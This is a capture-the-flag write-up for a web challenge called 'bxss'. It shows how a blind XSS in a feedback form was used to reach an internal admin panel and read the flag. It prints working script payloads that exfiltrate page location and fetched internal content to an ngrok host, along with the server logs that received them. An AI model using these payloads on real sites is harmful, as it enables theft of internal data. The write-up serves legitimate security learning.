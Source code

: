 # bxss

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

**Category:** Web

---

- The `feedback` page in the website was accepting html tags as input.
- If there was url in the input, like inside `<img>` and `<script>` tags, the server was making request to that URL.

## Using ngrok

- Using ngrok, I tried to fetch the `document.cookie` at first.
- But there was no cookie. (May be the cookie had `HttpOnly flag`)
- Then found the `document.loction` using the same:

```js
<script>document.location='http://1659bf86e1d6.ngrok.io?c='+document.location</script>
```

- There was a **secret admin cookie panel** at `http://0.0.0.0:8080`:

```bash
127.0.0.1 - - [09/Jun/2021 15:28:46] "GET /?c=http://0.0.0.0:8080/Secret_admin_cookie_panel HTTP/1.1" 200 -
```

## Fetching flag

- By using `fetch` API in javascript, the flag can be fetched from `http://0.0.0.0:8080/flag`
- And then the response can be sent to `ngrok`:

```js
<script>
fetch("http://0.0.0.0:8080/flag").then(r=>r.text()).then((r)=>{location="http://1659bf86e1d6.ngrok.io/?c="+r})
</script>
```

- The request had the flag:

```
127.0.0.1 - - [05/Jun/2021 00:52:46] "GET /?c=zh3r0{{Ea5y_bx55_ri8}} HTTP/1.1" 200 -
```

---